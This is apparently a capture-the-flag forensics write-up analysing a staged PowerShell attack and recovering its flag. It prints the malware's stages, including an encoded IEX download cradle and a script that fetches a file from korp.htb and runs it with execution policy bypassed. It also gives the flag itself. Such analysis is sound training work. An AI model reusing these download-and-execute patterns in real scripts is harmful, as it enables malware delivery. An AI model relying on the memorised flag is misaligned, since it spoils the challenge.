 # Solution

## Challenge Overview
A forensic challenge involving a multi-stage PowerShell attack related to Thorin's stolen clockwork amulet.

## Approach

### Initial Script Analysis
1. Examined the first PowerShell script with a specific workstation check
2. Decoded the Base64 encoded command revealing a download mechanism
3. Identified a pattern of staged malware delivery

### Payload Retrieval
- Used netcat to connect to the provided Docker instance
- Sent HTTP GET requests to different endpoints:
  1. `/update`: First stage payload
    ```
    function qt4PO { 
        if ($env:COMPUTERNAME -ne "WORKSTATION-DM-0043") { exit } 
        powershell.exe -NoProfile -NonInteractive -EncodedCommand "SUVYIChOZXctT2JqZWN0IE5ldC5XZWJDbGllbnQpLkRvd25sb2FkU3RyaW5nKCJodHRwOi8va29ycC5odGIvdXBkYXRlIik=" 
    } 
    qt4PO
    ```
  2. `/a541a`: Second stage payload with a custom authentication header
    ```
        function aqFVaq {
        Invoke-WebRequest -Uri "http://korp.htb/a541a" -Headers @{"X-ST4G3R-KEY"="5337d322906ff18afedc1edc191d325d"} -Method GET -OutFile a541a.ps1
        powershell.exe -exec Bypass -File "a541a.ps1"
    }
    aqFVaq
    ```
    3. Third Stage Payload
    ```
        $a35 = "4854427b37683052314e5f4834355f346c573459355f3833336e5f344e5f39723334375f314e56336e3730727d"
        ($a35-split"(..)"|?{$_}|%{[char][convert]::ToInt16($_,16)}) -join ""

    ```
    4. HEX string analysis
    - Hex String: 4854427b37683052314e5f4834355f346c573459355f3833336e5f344e5f39723334375f314e56336e3730727d
    - Decoded Flag: HTB{7h0R1N_H45_4lW4Y5_833n_4N_9r347_1NV3n70r}
### HTTP Requests
```
    GET /update HTTP/1.1
    Host: korp.htb

    GET /a541a HTTP/1.1
    Host: korp.htb
    X-ST4G3R-KEY: 5337d322906ff18afedc1edc191d325d
```
### Flag Extraction
- Found a hex-encoded string in the final payload
- Used PowerShell-like decoding technique to convert hex to ASCII
- Successfully decoded the flag: `HTB{7h0R1N_H45_4lW4Y5_833n_4N_9r347_1NV3n70r}`

## Key Findings
- Multi-stage fileless malware attack
- Use of Base64 encoding and hex obfuscation
- Targeted attack with specific workstation check

## Flag
`HTB{7h0R1N_H45_4lW4Y5_833n_4N_9r347_1NV3n70r}`